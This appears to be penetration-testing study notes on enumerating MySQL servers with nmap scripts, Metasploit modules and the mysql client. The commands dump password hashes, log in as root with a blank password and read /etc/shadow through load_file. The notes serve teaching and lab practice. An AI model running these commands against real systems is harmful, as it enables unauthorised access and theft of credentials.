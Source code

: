 # Enumeration: MySQL
> MySQL is usually found on some flavor of Linux. Database software very common in many web sites, especially in enterprise systems. It's also very often misconfigured and therefore vulnerable.

- Default MySQL Port: `3306`

## Contents
- [Nmap Scripts](#nmap-scripts)
  - [Default Scripts](#default-scripts)
  - [mysql-empty-password](#mysql-empty-password)
  - [mysql-info](#mysql-info)
  - [mysql-users](#mysql-users)
  - [mysql-databases](#mysql-databases)
  - [mysql-audit](#mysql-audit)
  - [mysql-dump-hashes](#mysql-dump-hashes)
  - [mysql-query](#mysql-query)
- [MetaSploit](#metasploit)
  - [mysql_writable_dirs](#mysql_writable_dirs)
  - [mysql_hashdump](#mysql_hashdump)
- [MySQL Commands](#mysql-commands)
  - [Initial Queries](#initial-queries)
  - [Filesystem Access](#filesystem-access)

## Nmap Scripts

### Default Scripts
> Start wide and general, then focus on things your find. Start with default scripts.
```
nmap -sV -sC -p 3306 [target ip]
```

### mysql-empty-password
> This will look for accounts that don't require a password Checks for MySQL servers with an empty password for root or anonymous.
```
nmap -sV -p 3306 --script mysql-empty-password [target ip]
```

### mysql-info
> More information on the db itself If you see "Interactive Client," that's interesting. 
```
nmap -sV -p 3306 --script mysql-info[target ip]
```

### mysql-users
> Should provide you with a list of users on the db system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-users --script-args "mysqluser='root',mysqlpass=''" [target ip]
```

### mysql-databases
> Should provide you with a list of databases on the system (add to enumeration notes)
```
nmap -sV -p 3306 --script mysql-databases --script-args "mysqluser='root',mysqlpass=''" [target ip]
```
- You get a mess of information.  Look for (most useful):  `datadir: /var/lib/mysql`
- That tells you were the variables are stored (this has potential uses)

### mysql-audit
```
nmap -sV -p 3306 --script mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" [target ip]
```
- NOTE: "Do not grant GRANT privileges to non Admin users => PASS" (that's good security but bad for us)
- Three args are required: [documentation](https://nmap.org/nsedoc/scripts/mysql-audit.html)
  - mysql-audit.username='root'
  - mysql-audit.password='foobar'
  - mysql-audit.filename='nselib/data/mysql-cis.audit'  [usually in /usr/share/nmap/]

### mysql-dump-hashes
> Should get all the hashes (just like with the msf scan below)
```
nmap -sV -p 3306 --script mysql-dump-hashes --script-args "username='root',password=''" [target ip]
```

### mysql-query
> Run an SQL query via an nmap script
```
nmap -sV -p 3306 --script mysql-query --script-args "query='select count(*) from books.authors;',username='root',password=''" [target ip]
```
- NOTE: Syntax of SQL Count() function...
```
SELECT COUNT(expression)
FROM table
WHERE condition;
```
- *Expression* is the parameter where you specify which values you want to count. It can be a field or string type value.
- *Table* is the table you use as a source to fetch records. You need to hyave at least one table.
- *WHERE* is an optional condition for selecting records from the table. 

## MetaSploit
> If you are not very familiar with SQL, you can use the MSF as a crutch.

### mysql_writable_dirs
```
> use auxiliary/scanner/mysql/mysql_writable_dirs
> options
> set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
  # tab completion is your friend
> setg rhosts [target ip]
  # setg is global so you don't have to keep setting rhosts if you're going to be hammering on the same ip all the time. Sets it for the current session only, but for the whole session.
> set verbose false
  # This is found in the advanced options section ( > advanced )
> set password ""
  # Sets to null
> run
```
- Outputting these kinds of things to a file can be a lot easier to parse
- Find writable dirs, etc.  (tmp and root are the only writable dirs on this lesson)
- NOTE: you found writable dirs in the target FILESYSTEM (not in the database), and you found them by scanning the database.

### mysql_hashdump
```
> use auxiliary/scanner/mysql/mysql_hashdump
> options
  # if you use setg for rhosts, it should already be set
> set username root
> set password ""
> run
```
- You just might get a whole bundle of hashs you can add to our list of enumerated goodies

## MySQL Commands

### Initial Queries
```
mysql -h [target ip] -u root
```
- This is a mysql command, the `-h` is for the host, `-u` is username
- If that lets you login... it's horribly misconfigured and more than vulnerable.
- At the `MySQL [(none)]>` prompt:

```
show databases;
  # NOTE: requires semicolon at the end
  # This will list out all the databases out there on the server
  # Choose one and look at it... done with "use [database]"
use [database];
show tables;
describe [table name or databaseName.tableName];
use books;
  # This drops us into the books db
select count(*) from authors;
  # This gives us a count of authors in the db
  # If you want to see everything from db...
select * from authors
  # Lists out all the info in authors
help
  # This will give you a quick list of things you can do, syntax, etc.
```

### Filesystem Access
> Let's see if we have access to files on the target machine... 
```
mysql -h [target ip] -u root
```
- At the `MySQL [(none)]>` prompt:
```
> select load_file("/etc/shadow");
```
- You may get the full shadow file...
- The [/etc/shadow](https://www.cyberciti.biz/faq/understanding-etcshadow-file/) file is a text file that contains information about the system’s users’ passwords.
- The [/etc/passwd](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) file contains a list of valid users on the target system
